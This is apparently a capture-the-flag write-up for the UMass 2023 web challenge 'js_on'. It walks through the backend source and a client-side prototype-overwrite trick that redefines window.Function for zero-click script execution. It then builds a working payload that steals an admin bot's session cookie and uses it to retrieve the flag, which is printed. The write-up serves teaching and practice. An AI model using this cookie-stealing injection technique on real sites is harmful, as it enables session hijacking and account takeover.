 # UMass 2023 - js\_on

## 💙 Description

> Why call it JSON if I can't put my own JS there? Introducing JS-ON! Now you can share your JS with your friends to enjoy next level development!
>
> Bot: [http://bot-json.web.ctf.umasscybersec.org:9000](http://bot-json.web.ctf.umasscybersec.org:9000)
>
> File : [app.js](https://umass-ctf-challenges.s3.amazonaws.com/web/app.js)
>
> Main Site : [http://app-json.web.ctf.umasscybersec.org:3000](http://app-json.web.ctf.umasscybersec.org:3000)

## The Challenge

What we first run into when opening this challenge is a website that allows you to execute and save / share a snippet of javascript code together with a predefined execution environment called `JS-ON`. In this case, prefilled with a snippet of code logging a hello-world variable.

Of note is that `JS-ON` snippets are running entirely client-side and only use the backend for code/environment storage. At no point is any user-defined JS being executed on the server.

<figure><img src="../.gitbook/assets/image (1).png" alt=""><figcaption><p>The main website</p></figcaption></figure>

In addition to the main JS-ON page, there's an 'admin bot' website that can visit arbitrary JS-ON snippets. Clicking `Submit` does not offer any output or other information about what the bot is doing _exactly_ besides giving a "currently visiting" and "visit done" status update.

<figure><img src="../.gitbook/assets/image.png" alt=""><figcaption><p>The bot website</p></figcaption></figure>

Finally, we also get an `app.js` file that gives us a peek at the backend of `JS-ON`:

```javascript
// Removed all the imports and basic express stuff to save space

let adminLibs = {};

adminLibs[process.env.ADMIN_ACCOUNT] = {
  "code":`/*
    !!! The best code ever !!!
  */ 
  console.log(1+2);//I think this should output 5
  console.log(flag);//this is my awesome flag`,
  "js-on":{'var_flag':process.env.FLAG}
}


app.use(cookiep());
app.use('/static', express.static('public'))

app.get('/', async (req, res) => {
  let uid = req.cookies.user ? req.cookies.user : '';
  let user = await client.get(uid);
  if(!user){
    uid = uuidv4();
    await client.set(uid,JSON.stringify({
      "code":"console.log(message)",
      "js-on":{'var_message':'Hello World'}
    }))
    res.set({'Set-Cookie':`user=${uid}`});
  }
  res.redirect(`/user/${uid}`);
})

app.get('/code/admin',(req,res)=>{
  let cookie = req.cookies.user;
  if(cookie && cookie === process.env.ADMIN_ACCOUNT){
    return res.json(adminLibs[cookie]);
  }
  res.json({'error':'Did not recieve admin cookie'})
})

app.get('/user/:id',async (req,res)=>{
  let uid = req.params.id ? req.params.id : '';

  let user = await client.get(req.params.id);
  if(!user){
    return res.redirect('/');
  }
  res.sendFile(path.join(__dirname,'public/html/index.html'))
})

app.get('/code/:id',async (req,res)=>{
  let uid = req.params.id; 
  let user = await client.get(uid)
  if(!user){
    return res.json({'error':'Could not find js-on for this'})
  }
  res.json(JSON.parse(user))
})

app.use(express.json());

app.post('/code',async (req,res)=>{
  let uid = req.cookies.user ? req.cookies.user : '';
  let user = await client.get(uid);
  if(!user){
    return res.json({'error':'Could not find js-on for that user!'});
  }
  try{
    req.body['js-on'] = JSON.parse(req.body['js-on'])
  }
  catch(e){
    return res.json({'error':'Failed to parse js-on!'})
  }
  await client.set(req.cookies.user,JSON.stringify(req.body));
  res.json({'success':'JS-ON loaded onto server!'});
})
```

The server creates a unique identifier cookie for each user that connects to it, and saves the user's code and JS-ON environment in Redis using that id.

There is also an admin feature that allows a user with a specific admin cookie to access a pre-defined `JS-ON` snippet containing the flag at the special url `/code/admin`.

<pre class="language-java"><code class="lang-java"><strong>adminLibs[process.env.ADMIN_ACCOUNT] = {
</strong>  "code":`/*
    !!! The best code ever !!!
  */ 
  console.log(1+2);//I think this should output 5
  console.log(flag);//this is my awesome flag`,
  "js-on":{'var_flag':process.env.FLAG}
}
</code></pre>

Of note is that there are no strict checks in place that limit a user to their own ID's snippet. While _updating_ is only possible on your own snippet, you may in fact open any other user's snippet for _viewing_ if you know the ID. This will be important later.

## The solution

The website and it's hello-world example are relatively bare-bones. At first sight it seems all we can put in the JS-ON box are variables to be accessed by the code snippet.&#x20;

However, looking at the client-side sources, we can see that JS-ON actually also supports defining objects (using `obj_name`) and functions (`func_name`).&#x20;

<figure><img src="../.gitbook/assets/2023-03-27T141617,933645858+0200.png" alt=""><figcaption><p>The JS-ON fetch code running at page-load</p></figcaption></figure>

Especially interesting here is the way these created functions, vars, and objects are stored. They are written into something called `cur` which - further down in the invocation - turns out to be `this` which - due to the call not being inside any `function` - turns out to be the javascript `window` object.

Since anything inside `window` is accessible globally, we can trick this code into overwriting the `Function()` constructor, giving us arbitrary code execution instantly after the page is loaded without needing to press the `Run this code!` button (as long as the override `func_` is followed by another dummy `func_` that triggers the invocation).

For example:

```json
{
    "func_Function": "alert('ohno');",
    "func_require": ";"
}
```

<figure><img src="../.gitbook/assets/2023-03-27T143157,884121737+0200.png" alt=""><figcaption></figcaption></figure>

With zero-click code execution working - and the fact that any user can freely open any other user's snippets - we can extend our snippet into a tool that steals the current user cookie of whoever opens our snippet, and leak it back to us by uploading it as a replacement snippet.

This may for example look like this:

```javascript
let adminCookie = document.cookie;
document.cookie = 'user=7ed131b9-415d-465d-8a2b-3ffd68ad4acd; path=/';

fetch('/code', {
  method: 'POST',
  headers: {'Content-Type': 'application/json'},
  body: JSON.stringify({ 
      code: ace.edit('editor1').getValue(), 
      'js-on': JSON.stringify({var_cookie: adminCookie})
  }) 
});
```

Now wrap that into a single-line string as the `func_Function` JS-ON:

```json
 {
     "func_Function": "let adminCookie = document.cookie; document.cookie = 'user=7ed131b9-415d-465d-8a2b-3ffd68ad4acd; path=/'; fetch('/code', { method: 'POST', headers: { 'Content-Type': 'application/json' }, body: JSON.stringify({ code: ace.edit('editor1').getValue(), 'js-on': JSON.stringify({ var_cookie: adminCookie }) }) });",
     "func_require": ";"
 }
```

Since this code runs directly at page load, and `Save your Code & JS-ON!` always does a refresh, we need to submit this to our user ID using burp, curl, or any other non-browser tool.

Next open the admin bot and ask it to open `/user/7ed131b9-415d-465d-8a2b-3ffd68ad4acd`.

Refresh your page in the browser, and you got the cookie:

<figure><img src="../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

Replace your cookie with this value, open `/code/admin`, and we've got the flag:

{% code overflow="wrap" %}
```json
{
    "code": "/*\n    !!! The best code ever !!!\n  */ \n  console.log(1+2);//I think this should output 5\n  console.log(flag);//this is my awesome flag",
    "js-on": {
        "var_flag": "UMASS{M4YB3_JS_$h0uld_b3_0FF_BruH_XDDDDDD489253}"
    }
}
```
{% endcode %}
